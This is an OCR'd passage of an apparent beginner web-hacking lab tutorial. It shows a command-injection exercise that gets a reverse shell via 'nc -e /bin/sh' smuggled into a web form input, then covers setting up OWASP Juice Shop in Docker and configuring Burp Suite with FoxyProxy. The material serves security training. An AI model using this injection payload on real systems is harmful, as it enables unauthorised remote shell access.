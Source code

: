 Run the command :- nc -nvlp 8080

Go to the web page and give input 

Input:- 192.168.1.174  &&  nc -e /bin/sh  192.168.1.178 8080 

We will got the shell 

![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.010.png)

Before diving in more web application attack

Lets install Another platfrom.

**Know we will install OWASP juice shop**

First we need to install docker.

**Source :- <https://airman604.medium.com/installing-docker-in-kali-linux-2017-1-fbaa4d1447fe>**

Go to this link and from preparation, Just follow the step copy the command and just paste it to the terminal run the command step wise. But skip the raspberry pi section.

Docker size is little bit big just wait for completion.

After installing docker, go to the provided github webpage and go to the docker section follow the instruction

**Source** :- <https://github.com/juice-shop/juice-shop>

There is command in this web page we have to run it.

Command :- docker pull bkimminich/juice-shop

Run next command 

command :- docker run --rm -p 3000:3000 bkimminich/juice-shop

Open the local host link we got Owasp juice shop

Link :-  <http://localhost:3000s>

**Later we go to the further web application attack we have to understand the working of Burp suite**

` `Burp suit is a tool, which play an great role in web application testing or attack.

It has a feature to intercept the flow of web page data from backend and read the all data.

Before working of it, lets set up it 

We can do manually or automatically by using foxy proxy extension

First we see manually : *Open the firefox  and go to the setting > scroll down general section to bottom > choose Network preference > select maul proxy> set IP (127.0.0.1) > port (8080)*

For each time we use burp, we have to repeat this process.

Automation this process: we took help of Foxy proxy extension

Source :- <https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/>

Add this extension and open it > click on add > name it (whatever you want)> set Ip (127.0.0.1)> Port 8080>  SAVE IT 
